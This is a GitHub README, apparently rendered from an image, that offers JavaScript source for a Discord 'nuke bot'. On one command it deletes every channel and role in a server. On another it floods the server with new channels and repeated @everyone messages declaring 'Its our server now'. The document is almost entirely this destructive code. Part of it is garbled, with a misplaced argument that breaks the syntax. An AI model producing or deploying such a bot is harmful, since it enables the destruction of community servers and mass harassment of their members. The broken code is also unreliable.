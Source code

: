 # Discord-nuke-bot
This discord nuke bot is using JS

Code:

const Discord = require('discord.js');
const client = new Discord.Client();


client.login(process.env.TOKEN)


client.on('message', async (message) => {
  if (message.content === 'o.restart') {
    message.guild.channels.cache.forEach
    (channel => channel.delete());


    message.guild.roles.cache.forEach
(role => role.delete());

await message.guild.channels.create
('This server has been restarted', {
  type : 'text'
}).then(async channel=> {
  channel.send('@everyone This server has been restarted. do o.nuke to nuke the server and o.restart to restart the server.')
})
  }
})


client.on('message', async (message) => {
  if (message.content === 'o.nuke') {
    await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  await message.guild.channels.create
  type : 'text'
('Its our server now', {
}).then(async channel=> {
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  channel.send('o.nuke')
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  channel.send('@everyone Its our server now')
  await message.guild.channels.create
('Its our server now', {
  type : 'text'
}).then(async channel=> {
  channel.send('@everyone Its our server now')
  channel.send('@everyone Its our server now')
  channel.send('@everyone Its our server now')
  channel.send('@everyone Its our server now')
    message.channel.send('@everyone This is our sevrer now')
    message.channel.send('@everyone This is our sevrer now')
    message.channel.send('@everyone This is our sevrer now')
     message.channel.send('@everyone This is our sevrer now')
      message.channel.send('@everyone This is our sevrer now')
       message.channel.send('@everyone This is our sevrer now')
        message.channel.send('@everyone This is our sevrer now')
  })
  })
  })
})
  })
})
  }
})

client.login('PLACE TOKEN HERE')
